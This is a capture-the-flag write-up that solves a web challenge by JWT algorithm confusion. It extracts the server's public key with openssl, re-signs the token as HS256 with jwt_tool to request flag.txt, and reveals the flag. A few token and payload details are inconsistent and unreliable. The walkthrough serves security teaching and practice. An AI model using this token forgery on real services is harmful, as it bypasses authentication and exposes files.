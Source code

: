 #### Challenge:

During lift-off preparation, the main engine hydrogen burnoff system (MEHBS) activation fails. R-Boy gets stuck trying to restore an encrypted back-up of the MEHBS. Another crew member remembers the key is stored on a remote file sharing service. Without a working MEHBS the liftoff cannot continue. Can you help R-Boy find the key for the MEHBS back-up?

[https://gamebox3.reply.it:20443/download.php](https://gamebox3.reply.it:20443/download.php)

---

#### Solution:

- The link in the challenge leads to a site with two dummy files `future.jpg` and `future_license.txt` available to be downloaded. In source code, one can see that there are other files commented-out. Amongst them is `flag.txt`.

- Valid download link looks like this:

```
https://gamebox3.reply.it:20443/download.php?file=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmaWxlbmFtZSI6IjdiNDIxZGYxMWE1M2UzM2Q5MjllZjRjMDI1Zjc5ZjgzIn0.dNHioi9RiEpyUtcOD6G5CBXU0EUi2HTl05eOvkFecmyoFyn5CWq5ExbwYLX8QE85qBaskOT-mtq3_XWwTxmGIKhPg8eOVuqqhU7nCg2eEdKwp-mjaPBnmDfBinvcfXEhItLi8T1hmMVgxaWSxQ1ZZKu4t-SFbuHOgesE6s9oBBiFMX92HSJbE3PnpAp6y6CYsI4hXBdzfAXERfmV0lV8-SRtKgKFwVTI-zmBlEGSReszw-NoDgGfFGF9e1tKjVb8sE3o5IYv5M5AmDjs8qWe5JO39IQeTJqn4r6Db6zPWjHKlheqFLrfytWQF9MvjDRU5CIu3tIRWYnylnVUA3Slrw
```

- The file parameter seems to be JWT token, after decoding it ([jwt.io](https://jwt.io)), we get:

```
{
    "typ": "JWT",
    "alg": "RS256"
}
{
    "filename": "7b421df11a53e33d929ef4c025f79f83"
}
```

- MD5 of the file name the link belongs to `MD5(future.jpg)` is:
```bash
7b421df11a53e33d929ef4c025f79f83
```

- So its clear now that we have to forge JWT token in download request to contain MD5 of `flag.txt` as filename:
```bash
{
    "typ": "JWT",
    "alg": "RS256"
}
{
    "filename": "7b421df11a53e33d929ef4c025f79f83"
}
```

- If vulnerable version of JWT is deployed on server, we can forge the request by changing the algorithm to `HS256` and use the public key as the encryption key. The slight hint here, was that this was the only challenge link that had HTTPS.

- The public key can be extracted from the challenge site with:
```bash
openssl s_client -connect gamebox3.reply.it:20443 | openssl x509 -pubkey -noout > public_key.pem
```

- Since we now have valid token, we have public key with which it was signed and we know the value we want to inject into the forged token, we use [jwt_tool](https://github.com/ticarpi/jwt_tool) to tamper with original request (change mode to HS256, change payload value to MD5 value of 'flag.txt' and sign the request with public_key.pem) to create forged request:

```bash
python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmaWxlbmFtZSI6IjdiNDIxZGYxMWE1M2UzM2Q5MjllZjRjMDI1Zjc5ZjgzIn0.dNHioi9RiEpyUtcOD6G5CBXU0EUi2HTl05eOvkFecmyoFyn5CWq5ExbwYLX8QE85qBaskOT-mtq3_XWwTxmGIKhPg8eOVuqqhU7nCg2eEdKwp-mjaPBnmDfBinvcfXEhItLi8T1hmMVgxaWSxQ1ZZKu4t-SFbuHOgesE6s9oBBiFMX92HSJbE3PnpAp6y6CYsI4hXBdzfAXERfmV0lV8-SRtKgKFwVTI-zmBlEGSReszw-NoDgGfFGF9e1tKjVb8sE3o5IYv5M5AmDjs8qWe5JO39IQeTJqn4r6Db6zPWjHKlheqFLrfytWQF9MvjDRU5CIu3tIRWYnylnVUA3Slrw
```

- Final forged request:
```
https://gamebox3.reply.it:20443/download.php?file=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaWxlbmFtZSI6IjE1OWRmNDg4NzU2MjdlMmY3ZjY2ZGFlNTg0YzVlM2E1In04x95HPXGvC1mVYzsvIwc9YoDV8W9HiSscTA1_Gcxx7c
```

<details><summary>FLAG:</summary>

```
{FLG:n0_b4ckup_n0_m3rcy}
```

</details>
